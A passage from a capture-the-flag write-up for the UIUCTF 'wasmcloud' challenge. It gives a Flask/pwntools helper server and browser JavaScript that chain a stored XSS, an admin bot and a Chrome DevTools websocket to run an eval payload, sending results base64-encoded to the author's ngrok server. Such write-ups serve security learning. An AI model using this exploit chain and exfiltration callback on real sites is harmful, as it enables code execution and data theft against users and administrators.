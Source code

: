 ```
```

At this point I'm thinking I have all the parts - here's what we'll do:
- Submit the stored XSS
- Send the admin bot to the stored XSS
- Spam run the wasm to run the debug process
- Wait for the flag delivery

I try it, and it doesn't work (what did you expect?). I then remember that a different port is not same origin, something I really should know. So we need to find a new method to get the websocket URL. The URL is printed out, but since we only get the output after calling /run/, that's too late, right? Well, since the response is returned chunked, it turns out we can read the webstocket URL that was sent to stderr before the server closes.

However, to get the timing to behave, we'll need to spin up a small http server ourselves that starts the wasm and returns a websocket URL on being called;

Here's the one I made:
```python
from flask import Flask
import requests
from pwn import *
from flask_cors import CORS, cross_origin
app = Flask(__name__)
cors = CORS(app)
app.config['CORS_HEADERS'] = 'Content-Type'

def make_r():
    r = remote("wasmcloud.chal.uiuc.tf", 80)
    r.sendline(b"GET /run/your-wasm-hash.wasm HTTP/1.1\r\n")
    uuid = r.recv(1024).decode().split(" ")[-4].split("\n")[0]
    # Im lazy
    return uuid

@app.route("/")
@cross_origin()
def hello_world():
    return make_r()

app.run(port=8080)
```

And the corresponding js:
```js
async function g(){
    let a;
    await fetch(`http://server.ngrok.io/`).then(r=>r.text()).then(d=>{a=d});
    console.log(a);
    let s = new WebSocket(a);
    s.onopen = function() {
        data = `(eval payload)`;
        s.send(JSON.stringify({'id':1,'method':'Runtime.evaluate','params':{'expression': data}}));
    };
    s.onmessage = function (event) {
        fetch(`http://server.ngrok.io/?`+btoa(event.data));
    };
};
g();
```
